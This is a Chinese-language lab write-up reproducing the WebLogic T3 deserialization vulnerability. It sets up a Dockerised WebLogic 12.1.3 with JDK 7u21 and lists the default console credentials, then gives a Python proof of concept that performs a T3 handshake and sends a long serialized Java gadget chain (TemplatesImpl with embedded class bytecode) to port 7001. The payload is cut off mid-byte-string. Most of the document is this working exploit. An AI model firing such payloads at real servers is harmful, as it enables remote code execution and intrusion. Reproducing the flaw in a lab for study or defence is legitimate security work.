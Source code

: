 
# [](#weblogic-t3-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)Weblogic T3 反序列化漏洞复现

## [](#1-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)1 环境搭建

### [](#11-%E7%8E%AF%E5%A2%83%E5%87%86%E5%A4%87)1.1 环境准备

Weblogic 环境采用 A-Team 的 docker 一键搭建：[https://github.com/QAX-A-Team/WeblogicEnvironment](https://github.com/QAX-A-Team/WeblogicEnvironment)

JDK 安装包下载地址：[https://www.oracle.com/technetwork/java/javase/archive-139210.html](https://www.oracle.com/technetwork/java/javase/archive-139210.html)

下载版本为：`jdk-7u21-linux-x64.tar.gz`

Weblogic 安装包下载地址：[https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html](https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html)

下载版本为：`fmw_12.1.3.0.0_wls.jar`

### [](#12-%E6%9E%84%E5%BB%BA%E9%95%9C%E5%83%8F)1.2 构建镜像

以 `Weblogic12.1.3` 配 `JDK 7u21` 为例，构建镜像命令如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=fmw_12.1.3.0.0_wls.jar  -t weblogic12013jdk7u21 .<br>``` |

镜像构建完成后，执行以下命令运行：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic12013jdk7u21 weblogic12013jdk7u21<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094631.png-water_print](assets/1699411396-52a58f3f263558738dbc45e170179f3d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094631.png-water_print")

运行后可访问`http://localhost:7001/console/login/LoginForm.jsp`登录到Weblogic Server管理控制台，默认用户名为`weblogic`,默认密码为`qaxateam01`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094417.png-water_print](assets/1699411396-bd3889ce9ac9b1b0b45bf3c229b052cd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094417.png-water_print")

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

poc如下，目前该 POC 只有回显：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>``` | ```python<br>#!/usr/bin/python<br>import socket<br>import os<br>import sys<br>import struct<br>import time<br># if len(sys.argv) < 2:<br>#    print 'Usage: python %s <TARGET_HOST> <PORT>' % os.path.basename(sys.argv[0])<br>#    sys.exit()<br><br>sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>sock.settimeout(5)<br><br>server_address = ("127.0.0.1", 7001)<br># print '[+] Connecting to %s port %s' % server_address<br>sock.connect(server_address)<br><br># Send headers<br>headers='t3 9.2.0.0\nAS:255\nHL:92\nMS:10000000\nPU:t3://abcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmn:7001\n\n'<br>print 'sending "%s"' % headers<br>sock.sendall(headers)<br><br>data = sock.recv(1024)<br>print >>sys.stderr, 'received "%s"' % data<br><br>payloadObj='\xac\xed\x00\x05\x73\x72\x00\x17\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4c\x69\x6e\x6b\x65\x64\x48\x61\x73\x68\x53\x65\x74\xd8\x6c\xd7\x5a\x95\xdd\x2a\x1e\x02\x00\x00\x78\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x53\x65\x74\xba\x44\x85\x95\x96\xb8\xb7\x34\x03\x00\x00\x78\x70\x77\x0c\x00\x00\x00\x10\x3f\x40\x00\x00\x00\x00\x00\x02\x73\x72\x00\x19\x6a\x61\x76\x61\x2e\x72\x6d\x69\x2e\x4d\x61\x72\x73\x68\x61\x6c\x6c\x65\x64\x4f\x62\x6a\x65\x63\x74\x7c\xbd\x1e\x97\xed\x63\xfc\x3e\x02\x00\x03\x49\x00\x04\x68\x61\x73\x68\x5b\x00\x08\x6c\x6f\x63\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x5b\x00\x08\x6f\x62\x6a\x42\x79\x74\x65\x73\x71\x00\x7e\x00\x04\x78\x70\xea\x0c\xa3\xad\x70\x75\x72\x00\x02\x5b\x42\xac\xf3\x17\xf8\x06\x08\x54\xe0\x02\x00\x00\x78\x70\x00\x00\x10\xea\xac\xed\x00\x05\x73\x72\x00\x17\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4c\x69\x6e\x6b\x65\x64\x48\x61\x73\x68\x53\x65\x74\xd8\x6c\xd7\x5a\x95\xdd\x2a\x1e\x02\x00\x00\x78\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x53\x65\x74\xba\x44\x85\x95\x96\xb8\xb7\x34\x03\x00\x00\x78\x70\x77\x0c\x00\x00\x00\x10\x3f\x40\x00\x00\x00\x00\x00\x02\x73\x72\x00\x3a\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x78\x61\x6c\x61\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x78\x73\x6c\x74\x63\x2e\x74\x72\x61\x78\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x49\x6d\x70\x6c\x09\x57\x4f\xc1\x6e\xac\xab\x33\x03\x00\x08\x49\x00\x0d\x5f\x69\x6e\x64\x65\x6e\x74\x4e\x75\x6d\x62\x65\x72\x49\x00\x0e\x5f\x74\x72\x61\x6e\x73\x6c\x65\x74\x49\x6e\x64\x65\x78\x5a\x00\x15\x5f\x75\x73\x65\x53\x65\x72\x76\x69\x63\x65\x73\x4d\x65\x63\x68\x61\x6e\x69\x73\x6d\x4c\x00\x0b\x5f\x61\x75\x78\x43\x6c\x61\x73\x73\x65\x73\x74\x00\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x72\x75\x6e\x74\x69\x6d\x65\x2f\x48\x61\x73\x68\x74\x61\x62\x6c\x65\x3b\x5b\x00\x0a\x5f\x62\x79\x74\x65\x63\x6f\x64\x65\x73\x74\x00\x03\x5b\x5b\x42\x5b\x00\x06\x5f\x63\x6c\x61\x73\x73\x74\x00\x12\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x4c\x00\x05\x5f\x6e\x61\x6d\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x11\x5f\x6f\x75\x74\x70\x75\x74\x50\x72\x6f\x70\x65\x72\x74\x69\x65\x73\x74\x00\x16\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x50\x72\x6f\x70\x65\x72\x74\x69\x65\x73\x3b\x78\x70\x00\x00\x00\x00\xff\xff\xff\xff\x00\x70\x75\x72\x00\x03\x5b\x5b\x42\x4b\xfd\x19\x15\x67\x67\xdb\x37\x02\x00\x00\x78\x70\x00\x00\x00\x01\x75\x72\x00\x02\x5b\x42\xac\xf3\x17\xf8\x06\x08\x54\xe0\x02\x00\x00\x78\x70\x00\x00\x0d\x7a\xca\xfe\xba\xbe\x00\x00\x00\x32\x00\xac\x0a\x00\x26\x00\x5a\x0a\x00\x5b\x00\x5c\x0a\x00\x5b\x00\x5d\x08\x00\x5e\x0a\x00\x5f\x00\x60\x08\x00\x61\x07\x00\x62\x0a\x00\x07\x00\x63\x07\x00\x64\x0a\x00\x65\x00\x66\x09\x00\x67\x00\x68\x0a\x00\x69\x00\x6a\x08\x00\x6b\x07\x00\x4d\x0a\x00\x09\x00\x6c\x08\x00\x6d\x0a\x00\x07\x00\x6e\x0a\x00\x6f\x00\x70\x0a\x00\x6f\x00\x71\x0a\x00\x07\x00\x72\x08\x00\x73\x07\x00\x74\x0a\x00\x16\x00\x75\x08\x00\x76\x07\x00\x3d\x08\x00\x77\x07\x00\x78\x08\x00\x79\x0a\x00\x7a\x00\x7b\x0a\x00\x1b\x00\x7c\x0a\x00\x1b\x00\x7d\x08\x00\x7e\x0a\x00\x69\x00\x7f\x0a\x00\x25\x00\x80\x07\x00\x81\x0a\x00\x23\x00\x82\x07\x00\x83\x07\x00\x84\x01\x00\x06\x3c\x69\x6e\x69\x74\x3e\x01\x00\x03\x28\x29\x56\x01\x00\x04\x43\x6f\x64\x65\x01\x00\x0f\x4c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x54\x61\x62\x6c\x65\x01\x00\x12\x4c\x6f\x63\x61\x6c\x56\x61\x72\x69\x61\x62\x6c\x65\x54\x61\x62\x6c\x65\x01\x00\x04\x74\x68\x69\x73\x01\x00\x13\x4c\x73\x75\x70\x65\x72\x6d\x61\x6e\x2f\x45\x63\x68\x6f\x54\x65\x73\x74\x3b\x01\x00\x09\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x01\x00\x72\x28\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x5b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x29\x56\x01\x00\x08\x64\x6f\x63\x75\x6d\x65\x6e\x74\x01\x00\x2d\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x01\x00\x08\x68\x61\x6e\x64\x6c\x65\x72\x73\x01\x00\x42\x5b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x01\x00\x0a\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x07\x00\x85\x01\x00\xa6\x28\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x64\x74\x6d\x2f\x44\x54\x4d\x41\x78\x69\x73\x49\x74\x65\x72\x61\x74\x6f\x72\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x29\x56\x01\x00\x08\x69\x74\x65\x72\x61\x74\x6f\x72\x01\x00\x35\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x64\x74\x6d\x2f\x44\x54\x4d\x41\x78\x69\x73\x49\x74\x65\x72\x61\x74\x6f\x72\x3b\x01\x00\x07\x68\x61\x6e\x64\x6c\x65\x72\x01\x00\x41\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x01\x00\x04\x65\x63\x68\x6f\x01\x00\x03\x62\x75\x66\x01\x00\x02\x5b\x42\x01\x00\x03\x6f\x75\x74\x01\x00\x16\x4c\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x3b\x01\x00\x01\x73\x01\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x01\x66\x01\x00\x19\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x3b\x01\x00\x01\x6f\x01\x00\x03\x6c\x65\x6e\x01\x00\x04\x6c\x65\x6e\x31\x01\x00\x01\x49\x01\x00\x04\x76\x61\x72\x34\x01\x00\x03\x63\x6c\x73\x01\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x03\x6e\x69\x6f\x01\x00\x02\x73\x73\x01\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x04\x76\x61\x72\x36\x01\x00\x04\x76\x61\x72\x35\x01\x00\x0d\x53\x74\x61\x63\x6b\x4d\x61\x70\x54\x61\x62\x6c\x65\x07\x00\x62\x07\x00\x64\x01\x00\x08\x3c\x63\x6c\x69\x6e\x69\x74\x3e\x01\x00\x04\x76\x61\x72\x33\x01\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x3b\x01\x00\x04\x76\x61\x72\x32\x07\x00\x81\x01\x00\x0a\x53\x6f\x75\x72\x63\x65\x46\x69\x6c\x65\x01\x00\x22\x45\x63\x68\x6f\x54\x65\x73\x74\x2e\x6a\x61\x76\x61\x20\x66\x72\x6f\x6d\x20\x49\x6e\x70\x75\x74\x46\x69\x6c\x65\x4f\x62\x6a\x65\x63\x74\x0c\x00\x27\x00\x28\x07\x00\x86\x0c\x00\x87\x00\x88\x0c\x00\x89\x00\x8a\x01\x00\x1b\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x73\x6f\x63\x6b\x65\x74\x2e\x53\x6f\x63\x6b\x65\x74\x4d\x75\x78\x65\x72\x07\x00\x8b\x0c\x00\x8c\x00\x8d\x01\x00\x08\x67\x65\x74\x4d\x75\x78\x65\x72\x01\x00\x0f\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x0c\x00\x8e\x00\x8f\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x07\x00\x90\x0c\x00\x91\x00\x92\x07\x00\x93\x0c\x00\x3e\x00\x94\x07\x00\x95\x0c\x00\x96\x00\x97\x01\x00\x0a\x67\x65\x74\x53\x6f\x63\x6b\x65\x74\x73\x0c\x00\x98\x00\x99\x01\x00\x0a\x63\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x0c\x00\x9a\x00\x9b\x07\x00\x9c\x0c\x00\x9d\x00\x9e\x0c\x00\x9f\x00\xa0\x0c\x00\xa1\x00\x99\x01\x00\x12\x72\x65\x6d\x6f\x74\x65\x48\x65\x61\x64\x65\x72\x4c\x65\x6e\x67\x74\x68\x01\x00\x11\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x49\x6e\x74\x65\x67\x65\x72\x0c\x00\xa2\x00\xa3\x01\x00\x09\x67\x65\x74\x42\x75\x66\x66\x65\x72\x01\x00\x0f\x67\x65\x74\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x14\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x13\x76\x75\x6c\x6e\x65\x72\x61\x62\x69\x6c\x69\x74\x79\x20\x65\x78\x69\x73\x74\x07\x00\xa4\x0c\x00\xa5\x00\xa6\x0c\x00\xa7\x00\xa8\x0c\x00\xa9\x00\x28\x01\x00\x07\x6f\x6e\x20\x65\x63\x68\x6f\x0c\x00\x96\x00\xaa\x0c\x00\x3b\x00\x28\x01\x00\x13\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x0c\x00\xab\x00\x28\x01\x00\x11\x73\x75\x70\x65\x72\x6d\x61\x6e\x2f\x45\x63\x68\x6f\x54\x65\x73\x74\x01\x00\x40\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x72\x75\x6e\x74\x69\x6d\x65\x2f\x41\x62\x73\x74\x72\x61\x63\x74\x54\x72\x61\x6e\x73\x6c\x65\x74\x01\x00\x39\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x54\x72\x61\x6e\x73\x6c\x65\x74\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x65\x61\x64\x01\x00\x0d\x63\x75\x72\x72\x65\x6e\x74\x54\x68\x72\x65\x61\x64\x01\x00\x14\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x65\x61\x64\x3b\x01\x00\x15\x67\x65\x74\x43\x6f\x6e\x74\x65\x78\x74\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x01\x00\x19\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x3b\x01\x00\x15\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x01\x00\x09\x6c\x6f\x61\x64\x43\x6c\x61\x73\x73\x01\x00\x25\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x09\x67\x65\x74\x4d\x65\x74\x68\x6f\x64\x01\x00\x40\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x4d\x65\x74\x68\x6f\x64\x3b\x01\x00\x18\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x4d\x65\x74\x68\x6f\x64\x01\x00\x06\x69\x6e\x76\x6f\x6b\x65\x01\x00\x39\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x79\x73\x74\x65\x6d\x01\x00\x15\x4c\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x50\x72\x69\x6e\x74\x53\x74\x72\x65\x61\x6d\x3b\x01\x00\x13\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x50\x72\x69\x6e\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x07\x70\x72\x69\x6e\x74\x6c\x6e\x01\x00\x15\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x56\x01\x00\x08\x67\x65\x74\x43\x6c\x61\x73\x73\x01\x00\x13\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x10\x67\x65\x74\x44\x65\x63\x6c\x61\x72\x65\x64\x46\x69\x65\x6c\x64\x01\x00\x2d\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x3b\x01\x00\x17\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x01\x00\x0d\x73\x65\x74\x41\x63\x63\x65\x73\x73\x69\x62\x6c\x65\x01\x00\x04\x28\x5a\x29\x56\x01\x00\x03\x67\x65\x74\x01\x00\x26\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x0d\x67\x65\x74\x53\x75\x70\x65\x72\x63\x6c\x61\x73\x73\x01\x00\x08\x69\x6e\x74\x56\x61\x6c\x75\x65\x01\x00\x03\x28\x29\x49\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x01\x00\x08\x67\x65\x74\x42\x79\x74\x65\x73\x01\x00\x04\x28\x29\x5b\x42\x01\x00\x05\x77\x72\x69\x74\x65\x01\x00\x05\x28\x5b\x42\x29\x56\x01\x00\x05\x66\x6c\x75\x73\x68\x01\x00\x15\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x56\x01\x00\x0f\x70\x72\x69\x6e\x74\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x00\x21\x00\x25\x00\x26\x00\x00\x00\x00\x00\x05\x00\x01\x00\x27\x00\x28\x00\x01\x00\x29\x00\x00\x00\x33\x00\x01\x00\x01\x00\x00\x00\x05\x2a\xb7\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x0a\x00\x02\x00\x00\x00\x22\x00\x04\x00\x23\x00\x2b\x00\x00\x00\x0c\x00\x01\x00\x00\x00\x05\x00\x2c\x00\x2d\x00\x00\x00\x01\x00\x2e\x00\x2f\x00\x02\x00\x29\x00\x00\x00\x3f\x00\x00\x00\x03\x00\x00\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x06\x00\x01\x00\x00\x00\x28\x00\x2b\x00\x00\x00\x20\x00\x03\x00\x00\x00\x01\x00\x2c\x00\x2d\x00\x00\x00\x00\x00\x01\x00\x30\x00\x31\x00\x01\x00\x00\x00\x01\x00\x32\x00\x33\x00\x02\x00\x34\x00\x00\x00\x04\x00\x01\x00\x35\x00\x01\x00\x2e\x00\x36\x00\x02\x00\x29\x00\x00\x00\x49\x00\x00\x00\x04\x00\x00\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x06\x00\x01\x00\x00\x00\x2d\x00\x2b\x00\x00\x00\x2a\x00\x04\x00\x00\x00\x01\x00\x2c\x00\x2d\x00\x00\x00\x00\x00\x01\x00\x30\x00\x31\x00\x01\x00\x00\x00\x01\x00\x37\x00\x38\x00\x02\x00\x00\x00\x01\x00\x39\x00\x3a\x00\x03\x00\x34\x00\x00\x00\x04\x00\x01\x00\x35\x00\x09\x00\x3b\x00\x28\x00\x02\x00\x29\x00\x00\x02\x0f\x00\x03\x00\x0d\x00\x00\x00\xf6\xb8\x00\x02\xb6\x00\x03\x12\x04\xb6\x00\x05\x4b\x2a\x12\x06\x03\xbd\x00\x07\xb6\x00\x08\x01\xc0\x00\x09\x03\xbd\x00\x09\xb6\x00\x0a\x4c\xb2\x00\x0b\x2b\xb6\x00\x0c\x2a\x12\x0d\x03\xbd\x00\x07\xb6\x00\x08\x2b\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x0e\xc0\x00\x0e\x4d\xb2\x00\x0b\x2c\xb6\x00\x0c\x2c\x4e\x2c\xbe\x36\x04\x03\x36\x05\x15\x05\x15\x04\xa2\x00\x9f\x2d\x15\x05\x32\x3a\x06\x19\x06\xb6\x00\x0f\x12\x10\xb6\x00\x11\x3a\x07\x19\x07\x04\xb6\x00\x12\x19\x07\x19\x06\xb6\x00\x13\x3a\x08\x19\x08\xb6\x00\x0f\xb6\x00\x14\x12\x15\xb6\x00\x11\x3a\x09\x19\x09\x04\xb6\x00\x12\x19\x09\x19\x08\xb6\x00\x13\xc0\x00\x16\xb6\x00\x17\x36\x0a\x15\x0a\x10\x5c\xa0\x00\x4d\x19\x06\xb6\x00\x0f\x12\x18\x03\xbd\x00\x07\xb6\x00\x08\x19\x06\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x19\xc0\x00\x19\x3a\x0b\x19\x06\xb6\x00\x0f\x12\x1a\x03\xbd\x00\x07\xb6\x00\x08\x19\x06\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x1b\x3a\x0c\x19\x0c\x12\x1c\xb6\x00\x1d\xb6\x00\x1e\x19\x0c\xb6\x00\x1f\x84\x05\x01\xa7\xff\x60\xb1\x00\x00\x00\x03\x00\x2a\x00\x00\x00\x5a\x00\x16\x00\x00\x00\x30\x00\x0c\x00\x31\x00\x22\x00\x32\x00\x29\x00\x33\x00\x42\x00\x34\x00\x49\x00\x35\x00\x4b\x00\x36\x00\x4f\x00\x38\x00\x59\x00\x39\x00\x5f\x00\x3a\x00\x6b\x00\x3b\x00\x71\x00\x3c\x00\x7a\x00\x3d\x00\x89\x00\x3e\x00\x8f\x00\x3f\x00\x9e\x00\x40\x00\xa5\x00\x41\x00\xc4\x00\x42\x00\xe0\x00\x43\x00\xea\x00\x44\x00\xef\x00\x38\x00\xf5\x00\x47\x00\x2b\x00\x00\x00\x84\x00\x0d\x00\xc4\x00\x2b\x00\x3c\x00\x3d\x00\x0b\x00\xe0\x00\x0f\x00\x3e\x00\x3f\x00\x0c\x00\x5f\x00\x90\x00\x40\x00\x41\x00\x06\x00\x6b\x00\x84\x00\x42\x00\x43\x00\x07\x00\x7a\x00\x75\x00\x44\x00\x41\x00\x08\x00\x89\x00\x66\x00\x45\x00\x43\x00\x09\x00\x9e\x00\x51\x00\x46\x00\x47\x00\x0a\